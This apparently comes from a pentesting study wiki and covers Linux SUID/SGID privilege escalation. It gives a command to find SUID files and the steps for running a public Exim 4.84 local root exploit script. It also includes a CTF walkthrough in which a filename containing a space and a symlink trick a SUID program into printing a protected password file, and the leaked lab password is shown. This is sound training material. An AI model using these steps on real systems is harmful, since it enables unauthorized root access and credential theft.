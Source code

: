 # SUID / SGID abuse

#### SUID files get executed with the privileges of the file owner.&#x20;

#### SGID files get executed with the privileges of the file group.&#x20;

If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

## Finding SUID / SGID Files

We can use the following find command to locate files with the SUID or SGID bits set:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

## Shell Escape Sequences

Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io) Refer to the previous section on shell escape sequences for how to use them.

### A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH

why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

#### By default, this is disabled in Linux, due to the obvious security risk it presents!

Both these environment variables get ignored when SUID files are executed

Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files. Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

for example we found an SUID file for exim service:

#### `-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3`

Exim is a popular mail transfer agent that is somewhat notorious for having many security vulnerabilities.

The version of exim is rather obvious from the filename, however we can confirm it:

#### `$ /usr/sbin/exim-4.84-3 --version`

Using searchsploit on our local machine, we find a local privilege escalation for this exact version:

![](../../../.gitbook/assets/suid1.png)

Copy the exploit script across to the target machine. You may need to remove ^M characters from the script:

{% hint style="info" %}
DON NOT COPY PASTE THIS, ENTER ^M WITH THE KEY COMBINATIONS.

Note that to get ^M you have to hold Ctrl and then press V and M in succession.
{% endhint %}

`sed -e "s/^M//" 39535.sh > privesc.sh`

Make sure the script is executable:

`chmod +x privesc.sh`

Execute the script to gain a root shell:

`./privesc.sh`

## Abusing cat to read files with SUID executables

we have a suid program that prints out a given file contents named printfile we have a password file that cant be read by this program which contains root password .it seems the program printfile outputs the text from a file; just like cat. Therefore, we can assume that it’s using cat somewhere in the code.

![](<../../../.gitbook/assets/1 (14).png>)

make a temp directory, and a new text file that we can use for testing the program with ltrace.

#### `mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt`  `cd /tmp/jhalon`  `ltrace ~/printfile test.txt` ``  `__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600`  `access("test.txt", 4) = 0`  `snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17`  `system("/bin/cat test.txt"`  `--- SIGCHLD (Child exited) ---`  `<... system resumed> ) = 0`  `+++ exited (status 0) +++`

From the output, we can see that there is a small security hole in the way this program functions. If you look closely, you can see that the function access() and /bin/cat are being called on the input file. What access() does is check permissions based on the process’ real user ID rather than the effective user ID

And if we look back into the previous ls -la output, we can see that printfile is owned by leviathan3. So access() will call the process with leviathan3’s privileges

Looking into the code we also see that /bin/cat is being called on the file to output the contents. While access() uses the full path’s filename, /bin/cat uses just the first part of the filename. (This is due to how the “ “ are set up in the program) What we can do here is try to add a space to a filename, and if we are correct, /bin/cat will read the file as 2 separate files.

#### `touch pass\ file.txt`  `ltrace ~/printfile "pass file.txt"` ``  `__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600`  `access("pass file.txt", 4) = 0`  `snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22`  `system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory`  `/bin/cat: file.txt: No such file or directory` ``  `--- SIGCHLD (Child exited) ---`  `<... system resumed> ) = 256`  `+++ exited (status 0) +++`

As you can see, /bin/cat calls “pass file.txt” as two separate files, “pass” and “file.txt”. We can actually exploit this! Let’s go ahead and create a symbolic link for the “pass” part in “pass file.txt”, and link it to /etc/leviathan\_pass/leviathan3.

#### `ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass` ``  `leviathan2@melinda:/tmp/jhalon$ ls -la` ``  `total 7864`  `drwxrwxr-x 2 leviathan2 leviathan2 4096 Sep 10 04:55 .`  `drwxrwx-wt 1 root root 8036352 Sep 10 04:55 ..`  `lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3`  `-rw-rw-r-- 1 leviathan2 leviathan2 0 Sep 10 04:54 pass file.txt` ``  `leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"`  `Ahdiemoo1j`  `/bin/cat: file.txt: No such file or directory`

as you can see we where able to read password file.

















